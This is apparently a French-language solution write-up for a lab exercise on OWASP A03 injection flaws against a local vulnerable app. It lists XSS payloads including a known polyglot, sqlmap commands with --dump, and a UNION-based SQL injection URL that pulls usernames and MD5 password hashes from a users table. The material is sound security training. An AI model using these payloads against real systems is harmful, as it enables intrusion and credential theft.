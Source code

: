 # Solution
## A03 - Injection

Nous avons une page avec une injection SQL et une XSS. Pour la XSS, nous pouvons tester avec `<script>alert(1)</script>` dans le champ de recherche et cela fonctionne. Nous aurions pu aussi utiliser `"><svg/onload=alert(1)>` ou alors une polyglotte : 
```bash
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
Source : https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

Pour l'injection SQL nous pouvons tester avec SQLmap assez naturellement :
```bash
sqlmap -u "http://localhost:8042/A03.php?username=admin"
sqlmap -u "http://localhost:8042/A03.php?username=admin" --dump
```

Nous pouvons aussi tester avec des injections manuelles :
```sql
http://localhost:8042/A03.php?username=admi%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x71786b6a71%2CJSON_ARRAYAGG%28CONCAT_WS%280x6176666d7877%2Cid%2Cmd5_password%2Cusername%29%29%2C0x717a767171%29%2CNULL%20FROM%20vulnerable_app.users--%20-
```

Nous obtenons le flag.